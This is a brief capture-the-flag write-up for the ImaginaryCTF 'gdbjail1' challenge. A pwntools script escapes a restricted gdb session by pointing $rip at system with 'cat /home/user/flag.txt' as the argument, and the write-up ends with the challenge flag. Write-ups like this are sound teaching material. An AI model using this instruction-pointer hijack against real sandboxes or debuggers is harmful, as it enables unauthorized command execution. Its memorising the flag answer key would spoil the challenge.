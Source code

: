 https://ctftime.org/event/2396

# gdbjail1 (misc)

escape from gdb only using set, break and continue

## Solution

We can just set $rip to system, gdb will find the address for us.

```python
#!/usr/bin/env python3

from pwn import *

p = remote("gdbjail1.chal.imaginaryctf.org", 1337)

p.sendline('set $rip = system')
p.sendline('set $rdi = "cat /home/user/flag.txt"')
p.sendline('set $rsi = 0')
p.sendline('continue')
p.sendline('continue')
p.sendline('continue')

p.interactive()
```

## Flag
`ictf{n0_m0re_debugger_a2cd3018}`

shafouz 2024/07/21
